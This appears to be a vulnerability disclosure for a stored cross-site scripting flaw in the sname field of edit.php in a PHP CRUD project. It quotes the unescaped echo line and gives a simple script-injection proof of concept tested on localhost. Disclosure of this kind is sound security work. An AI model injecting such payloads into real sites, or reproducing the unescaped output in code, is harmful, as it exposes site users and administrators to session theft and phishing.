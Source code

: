 # crud-operation-system-in-php has Based Cross Site Scripting vulnerability in edit.php

## supplier 
https://code-projects.org/crud-operation-system-in-php-with-source-code/
## Vulnerability file
edit.php and sname parameter
## describe
There is an  Cross Site Scripting vulnerability in f crud system  in edit.php,  Control parameter: sname

Malicious attackers can use this cross-site scripting vulnerability to conduct phishing attacks and obtain administrator login information and permissions.

**Code analysis**

```
 <input type="text" name="sname" value="<?php echo $row['sname']; ?>"/>
```

echo $row['sname']; in no filter. 

![image-20241123145102714](https://github.com/user-attachments/assets/daf1e06b-58aa-4b72-892e-6a3e5bdf47a8)

## POC

sname insert into database;

```
"/><script>alert(2);</script>
```

![image-20241123145916800](https://github.com/user-attachments/assets/95a3c636-1a72-4397-afb0-1b738e4906e0)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://localhost/crud/edit.php?id=1
```

**Result**

![image-20241123145929562](https://github.com/user-attachments/assets/b0f5321b-fcbf-4264-be4e-827c133233d8)

 
